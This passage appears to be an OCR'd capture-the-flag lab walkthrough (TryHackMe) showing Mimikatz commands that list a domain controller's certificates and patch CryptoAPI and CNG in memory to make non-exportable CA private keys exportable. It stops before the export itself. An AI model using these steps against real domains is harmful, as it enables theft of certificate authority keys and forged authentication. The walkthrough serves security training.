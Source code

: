 Let's first see if we can view the certificates stored on the DC:

- **Mimikatz Terminal**      

```powershell
mimikatz # crypto::certificates /systemstore:local_machine
 * System Store  : 'local_machine' (0x00020000)
 * Store         : 'My'

 0.
    Subject  :
    Issuer   : DC=loc, DC=tryhackme, DC=za, CN=za-THMDC-CA
    Serial   : 040000000000703a4d78090a0ab10400000010
    Algorithm: 1.2.840.113549.1.1.1 (RSA)
    Validity : 4/27/2022 8:32:43 PM -> 4/27/2023 8:32:43 PM
    Hash SHA1: d6a84e153fa326554f095be4255460d5a6ce2b39
        Key Container  : dbe5782f91ce09a2ebc8e3bde464cc9b_32335b3b-2d6f-4ad7-a061-b862ac75bcb1
        Provider       : Microsoft RSA SChannel Cryptographic Provider
        Provider type  : RSA_SCHANNEL (12)
        Type           : AT_KEYEXCHANGE (0x00000001)
        |Provider name : Microsoft RSA SChannel Cryptographic Provider
        |Key Container : te-DomainControllerAuthentication-5ed52c94-34e8-4450-a751-a57ac55a110f
        |Unique name   : dbe5782f91ce09a2ebc8e3bde464cc9b_32335b3b-2d6f-4ad7-a061-b862ac75bcb1
        |Implementation: CRYPT_IMPL_SOFTWARE ;
        Algorithm      : CALG_RSA_KEYX
        Key size       : 2048 (0x00000800)
        Key permissions: 0000003b ( CRYPT_ENCRYPT ; CRYPT_DECRYPT ; CRYPT_READ ; CRYPT_WRITE ; CRYPT_MAC ; )
        Exportable key : NO
[....]
```

We can see that there is a CA  certificate on the DC. We can also note that some of these certificates  were set not to allow us to export the key. Without this private key, we would not be able to generate new certificates. Luckily, Mimikatz  allows us to patch memory to make these keys exportable:

- **Mimikatz Terminal**      

```powershell
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # crypto::capi
Local CryptoAPI RSA CSP patched
Local CryptoAPI DSS CSP patched

mimikatz # crypto::cng
"KeyIso" service patched
```

If you get an error, don't  worry, it just means someone else executed the patch before you. With  these services patched, we can use Mimikatz to export the certificates:

- **Mimikatz Terminal**      
